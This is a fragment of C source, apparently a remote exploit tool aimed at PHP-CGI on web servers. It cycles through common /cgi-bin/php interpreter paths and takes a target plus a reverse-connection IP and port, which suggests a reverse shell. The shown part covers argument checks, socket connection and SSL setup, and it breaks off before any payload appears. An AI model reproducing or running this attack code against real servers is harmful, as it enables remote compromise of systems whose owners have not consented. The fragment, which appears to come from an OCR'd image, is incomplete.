 >
>      default:
>       usage(argv);
>      }
>   }
>
>   if ((optind < argc) || !target || !protocol || !port ||
>       !reverseip || !reverseport){
>     usage(argv);
>   }
>
>   server = gethostbyname_(target, port);
>   if (!server) {
>    printf("Error while resolving hostname. (7)\n");
>    exit(255);
>   }
>
>   char *interpreters[5];
>   int ninterpreters = 5;
>   interpreters[0] = strdup("/cgi-bin/php");
>   interpreters[1] = strdup("/cgi-bin/php5");
>   interpreters[2] = strdup("/cgi-bin/php-cgi");
>   interpreters[3] = strdup("/cgi-bin/php.cgi");
>   interpreters[4] = strdup("/cgi-bin/php4");
>
>   for (i=0;i<ninterpreters;i++) {
>    interpreter = interpreters[i];
>    if (forceinterpreter) {
>      interpreter = strdup(forceinterpreter);
>    }
>    if (forceinterpreter && i)
>     break;
>    printf("%s\n", interpreter);
>
>    sockfd = socket(AF_INET, SOCK_STREAM, 0);
>    if (sockfd < 1) {
>      printf("socket error (8)\n");
>      exit(255);
>    }
>
>    if (connect(sockfd, (void*)server, sizeof(struct sockaddr_in)) < 0) {
>     printf("connect error (9)\n");
>     exit(255);
>    }
>    if (httpsflag) {
>     sslconnection = (connection*) malloc(sizeof(connection));
>     if (!sslconnection) {
>      printf("malloc error (10)\n");
>      exit(255);
>     }
>     sslconnection->handle = NULL;
>     sslconnection->ctx = NULL;
>
>     SSL_library_init();
>
>     sslconnection->ctx = SSL_CTX_new(SSLv23_client_method());
>     if (!sslconnection->ctx) {
>      printf("SSL_CTX_new error (11)\n");
>      exit(255);
>     }
>
>     sslconnection->handle = SSL_new(sslconnection->ctx);
>     if (!sslconnection->handle) {
>      printf("SSL_new error (12)\n");